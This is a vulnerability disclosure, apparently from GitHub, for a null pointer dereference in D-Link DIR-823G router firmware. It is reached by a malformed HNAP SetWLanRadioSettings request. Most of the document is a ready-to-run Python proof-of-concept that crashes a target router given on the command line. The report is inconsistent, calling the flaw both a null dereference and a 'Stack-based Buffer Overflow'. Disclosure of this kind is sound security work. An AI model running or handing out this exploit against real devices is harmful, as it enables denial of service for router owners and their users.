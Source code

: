 # Bug Report: NPD in D-Link DIR-823G Router
A null pointer dereference null pointer dereference overflow vulnerability has been identified in the D-Link DIR-823G router firmware that allows remote attackers to cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: D-Link DIR-823G Wireless Router
- **Affected Version**: A1V1.0.2B05
- **Download Source**: http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/HNAP` endpoint. When it contains the action `SetWLanRadioSettings`, the code attempts to extract the `RadioID` element and passes it to `strncmp()` without null validation, leading to a null pointer dereference. An attacker can send a malicious HTTP request omitting the `RadioID` element to cause a denial of service attack.
![alt text](image-7.png)
## poc
![alt text](image-6.png)

## Reproduce
```python
#!/usr/bin/env python3

import requests
import sys

def exploit(target):
    url = f"http://{target}/HNAP1/"
    
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'text/xml; charset=utf-8',
        'SOAPAction': '"http://purenetworks.com/HNAP1/SetMultipleActions"',
        'HNAP_AUTH': '8D2D80BB8F1D63D9FF6E08DE6B821073 1675516820',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': f'http://{target}',
        'Connection': 'close',
        'Referer': f'http://{target}/SNTP.html',
        'Cookie': 'uid=GcfQ7q3TwY; PrivateKey=455D512F7EA7AA45CC1B4CBB4562DE49; timeout=106'
    }
    
    payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetMultipleActions xmlns="http://purenetworks.com/HNAP1/"><SetWLanRadioSettings xmlns="http://purenetworks.com/HNAP1/"></SetWLanRadioSettings></SetMultipleActions></soap:Body></soap:Envelope>'
    
    response = requests.post(url, data=payload, headers=headers)
    print(f"Status: {response.status_code}")
    print(response.text)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 script.py <target_ip>")
        sys.exit(1)
    
    exploit(sys.argv[1])
```